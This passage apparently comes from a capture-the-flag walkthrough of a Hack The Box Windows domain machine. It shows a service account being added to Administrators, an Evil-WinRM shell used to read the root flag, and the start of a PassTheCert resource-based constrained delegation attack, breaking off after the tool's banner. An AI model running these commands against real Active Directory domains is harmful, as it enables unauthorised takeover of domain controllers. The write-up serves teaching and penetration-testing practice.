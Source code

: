 
The one that works is `add_user_to_group`:

    
    
    # add_user_to_group svc_ldap administrators
    Adding user: svc_ldap to group Administrators result: OK
    

I’ll reconnect with a new Evil-WinRM shell as svc_ldap, and now it has the
administrators group:

![image-20231127142325929](../img/image-20231127142325929.png)

That’s enough to read `root.txt`:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
    367eb8b3************************
    

#### PassTheCert -> TGT [Path 2]

The intended way to exploit this is to use the `write_rbcd` action to give the
fake computer `0xdf$` delegration rights over the DC:

    
    
    oxdf@hacky$ python PassTheCert/Python/passthecert.py -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from '0xdf$' -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra
    